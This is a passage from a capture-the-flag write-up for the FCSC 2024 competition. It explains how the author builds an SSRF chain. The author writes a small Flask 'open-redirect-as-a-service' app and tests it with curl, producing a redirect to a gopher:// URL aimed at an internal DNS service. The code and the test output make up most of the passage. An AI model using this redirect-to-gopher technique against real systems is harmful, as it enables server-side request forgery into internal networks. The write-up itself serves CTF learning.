 Unfortunately, although option 1 is technically easier, it seems impossible because of the prefix: ``http://`` added by index.php on *frontend.fcsc2024.fr*.  

So we'll need to find an [OpenRedirect](https://portswigger.net/kb/issues/00500100_open-redirection-reflected) to redirect the url to a protocol of our choice.  

### Confirmation of exploitation path:  
To ensure that this scenario could be used, I deployed a flask application: ``http://red.fcsc2024.fr:5000/`` in the infrastructure.   

Here's the code: 
```python
from flask import Flask, redirect, url_for, request

app = Flask(__name__)

@app.route('/')
def redirection():
    destination_url = request.args.get('redirect')
    return redirect(destination_url, code=302)

if __name__ == '__main__':
    app.run(debug=True, host='0.0.0.0', port=4444)

```
This application is an Open-Redirect-As-A-Service, allowing me to redirect my url to wherever I want.
So I've completed the piece of the puzzle that was missing from the full operation.

Once I've added it to DNS, we can test how it works:
```bash
/usr/app # curl -v http://red.fcsc2024.fr:4444?redirect=gopher://pong-internal-dns:53/_example
* Host red.fcsc2024.fr:4444 was resolved.
* IPv6: (none)
* IPv4: 10.0.0.6
*   Trying 10.0.0.6:4444...
* Connected to red.fcsc2024.fr (10.0.0.6) port 4444
> GET /?redirect=gopher://pong-internal-dns:53/_example HTTP/1.1
> Host: red.fcsc2024.fr:4444
> User-Agent: curl/8.5.0
> Accept: */*
>
< HTTP/1.1 302 FOUND
< Server: Werkzeug/3.0.2 Python/3.11.8
< Date: Fri, 12 Apr 2024 03:39:06 GMT
< Content-Type: text/html; charset=utf-8
< Content-Length: 263
< Location: gopher://pong-internal-dns:53/_example
< Connection: close
<
<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="gopher://pong-internal-dns:53/_example">gopher://pong-internal-dns:53/_example</a>. If not, click the link.
* Closing connection
```
